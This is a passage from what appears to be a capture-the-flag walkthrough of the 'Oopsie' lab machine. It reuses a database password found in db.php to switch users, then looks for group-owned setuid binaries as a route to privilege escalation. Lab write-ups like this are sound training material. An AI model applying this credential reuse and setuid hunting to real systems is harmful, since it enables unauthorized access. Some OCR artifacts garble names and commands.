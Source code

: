 
From the php.net manual page
“https://www.php.net/manual/en/function.mysqli-connect.php”, we see how
**mysqli\_connect** function works:
```code
mysqli\_connect(DB\_HOST, DB\_USERNAME, DB\_PASSWORD,DB\_NAME);" 
```

So let’s use the page credentials in db.php : 

•	DB_USERNAME: **robert**

•	DB_PASSWORD:**M3g4C0rpUs3r!**

We can now use the “su (Switch User)” command to switch user and move laterally.
```shell
www-data@oopsie:/$  su robert
Password:
robert@oopsie:/$  
```


### &#9702;  Privilege Escalation
======================

The **id** command reveals that **robert** is a member of the
**bugracker** group.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image66.png"></div> 

We can enumerate the filesystem to see if this group has any special
acces
```shell
robert@oopsie:/$  find  / -type  f  -group  bugtracker  2>/dev/null
/usr/bin/bugtracker
```

Let’s list what is inside the directory
```shell
 robert@oopsie:/$  ls -al /usr/bin/bugtracker
-rw*s*r-xr-- 1  root_bugtracker 8792  Jan  25 10:14  /usr/bin/bugtracker
```


We could have use also the following command to concatenate the two
commands:
```shell
robert@oopsie:/$  find / -type f -group bugtracker 2>/dev/null | xargs  ls -al
```
#### &#x25B9;  ***Setuid***



We can see that there is a special permission on the file “**s**”.
```shell
robert@oopsie:/$  ls -al /usr/bin/bugtracker
-rwsr-xr-- 1  root_bugtracker 8792  Jan  25 10:14  /usr/bin/bugtracker
```
